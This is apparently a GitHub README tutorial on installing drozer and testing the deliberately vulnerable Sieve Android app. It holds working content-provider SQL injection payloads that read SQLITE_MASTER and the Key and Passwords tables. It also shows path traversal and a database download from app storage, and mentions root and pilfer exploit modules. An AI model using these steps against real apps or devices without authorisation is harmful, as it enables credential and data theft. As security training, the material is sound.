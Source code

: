 # Drozer
## Setting up drozer

1. Go to the following link and download the latest drozer version
	[Github drozer release page](https://github.com/FSecureLABS/drozer/releases/)
2. Downloading the .deb package - didn't work
		
3. Downloading .whl file and then installing pip for python 2.7
      running for installing drozer
      ```bash
      $ python -m pip install drozer-2.4.4-py2-none-any.whl
      ```
4. confirm that drozer is up and running using the command		
	```bash
	$ drozer
	```
5. before installing the drozer agent, install Genymotion_ARM_Translation 
	[Genymotion-ARM-Translation](https://github.com/m9rco/Genymotion_ARM_Translation/blob/master/package/Genymotion-ARM-Translation_for_8.0.zip)
6. Then download drozer agent from the github and install it in the android device
7. Go to the drozer agent and then enable Embedded Server
8. Then run the following command
	```bash
	$ adb connect 192.168.84.107
	$ adb devices
		//to check whether the device have been connected or not
	$ adb forward tcp:31415 tcp:31415
	```	
9. Then run the follwoing command to start drozer console
	```bash		
	$ drozer console connect
	```
10. Drozer is successfully started
----
## Drozer commands
### To view the list of packages installed on the android console
	```
	dz> run app.package.list
	```
  To select a particular package (use -f with the keywork to search)
	```
	dz> run app.package.list -f drozer 
	```	
  To view the information about a package
	```	
	dz> run app.package.info -a <package_name>
	dz> run app.package.info -a com.mwr.example.sieve
	```		
  To view the attack surface of the applications
	```
	dz> run app.package.attacksurface <package_name>
	dz> run app.package.attacksurface com.mwr.example.sieve
		//shows the available attack surfaces
	```
	output:	
			          3 activities exported
				  0 broadcast receivers exported
				  2 content providers exported
				  2 services exported
				    is debuggable
				    
### Launching activities
	```
	dz> run app.activity.info -a com.mwr.example.sieve
	```
		//shows a list of activities which are exported by the application and also the permission needed to launch the application
		Since the activities is exported and doesn't require any permission, launching it with the help of drozer
	```		
	dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.MainLoginActivity
	```		
			
### To read fro the content provider
	```
	dz> run app.provider.info -a com.mwr.example.sieve
	```
	//lists the exported content providers
				
	To extract the data from content providers, we need to reconstruct content URIs which begins with content:// but rest of the part of the URI is unknown. So, running drozer scanner to find more information about the application
			
### Drozer scanner
	```
	dz> run scanner.provider.finduris -a com.mwr.example.sieve
	```
	//gives a list of content URIs and divide them into a list of accessible content URIs
				
### Reading from content providers, now that we have the content URIs from the above scan
	```
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
	```
	//using the above command, we can also modify the data.
			
### checking for sql injection using the projection
	```
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
	```		
		To list down the available tables in sqlite database using the above vulnerability
	```		
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
	```		
	
	To retrieve the data of a table
	```		
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
	```		

### File system-backed content providers
	```			
	dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
	dz> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/prajjwal/tmp/database.db
	```
	// reading file from the application data directory and to write at the operating system's file system
		
### Drozer module to test for simple vulnerability 
	```		
	dz> run scanner.provider.injection -a com.mwr.example.sieve
	dz> run scanner.provider.traversal -a com.mwr.example.sieve
	```		

### To list down exported services
	```
	dz> run app.service.info -a com.mwr.example.sieve
	```
### To list down the available modules in the drozer use, 
	```
	dz> list
	```
---		
### drozer additional modules
	```
	dz> module search cmdclient
	to get more information about the above module, pass -d option
	dz> module search cmdclient -d
	```
### installing modules
	```
	dz> module install cmdclient	
	```

---
|namespace|description|
|:-----------------|:---------------------------------------------------------------------|
|app.activity | Find and interact with activities exported by apps.|
|app.broadcast | Find and interact with broadcast receivers exported by apps.|
|app.package | Find packages installed on a device, and collect information about them.|
|app.provider | Find and interact with content providers exported by apps.|
|app.service | Find and interact with services exported by apps.|
|auxiliary | Useful tools that have been ported to drozer.|
|exploit.pilfer | Public exploits that extract sensitive information through unprotected content providers or SQL injection.|
|exploit.root | Public root exploits.|
|information | Extract additional information about a device.|
|scanner | Find common vulnerabilities with automatic scanners.|
|shell | Interact with the underlying Linux OS.|
|tools.file | Copy files to and from the device.|
|tools.setup | Install handy utilities on the device, including busybox.|
